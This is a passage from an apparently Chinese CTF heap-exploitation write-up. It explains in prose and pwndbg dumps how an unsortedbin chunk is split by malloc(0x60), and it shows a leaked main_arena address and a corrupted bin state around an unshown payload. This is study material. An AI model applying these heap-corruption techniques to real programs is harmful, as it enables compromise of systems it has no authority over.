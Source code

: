 由于在申请空间之前，之后unsortedbin中有空闲的空间，因此申请空间之后会使用unsortedbin中的chunk。

看一下此时的堆内存：

```c
pwndbg> x/60gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000021 #index1
0x555555757030:	0x0000000000000000	0x0000000000000000
0x555555757040:	0x0000000000000000	0x0000000000000021 #index2
0x555555757050:	0x0000000000000000	0x0000000000000000
0x555555757060:	0x0000000000000000	0x0000000000000021 #index3
0x555555757070:	0x0000000000000000	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000071 #index4(由unsortedbin分裂)
.....（省略内容均为空）
0x5555557570f0:	0x0000000000000000	0x0000000000000021 #index5(由unsortedbin分裂)
0x555555757100:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757110:	0x0000000000000020	0x0000000000000090 #index6（原index5）
.....（省略内容均为空）
0x5555557571a0:	0x0000000000000000	0x0000000000020e61 #top_chunk
.....（省略内容均为空）
0x5555557571d0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

从上面的堆情况可以看到，由于是malloc(0x60)，而原unsortedbin中的chunk_size过大，因此unsortedbin中的chunk会利用并分裂成两个堆块，其中index5还是存放在unsortedbin中的：

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all [corrupted]
FD: 0x5555557570f0 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x5555557570f0
BK: 0x5555557570f0 ◂— 0x90
----------------------------------------------------------------------
执行payload前：
unsortedbin
all [corrupted]
FD: 0x555555757080 ◂— 0x0
BK: 0x555555757080 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x555555757080
----------------------------------------------------------------------
smallbins
empty
largebins
empty
pwndbg> 
```
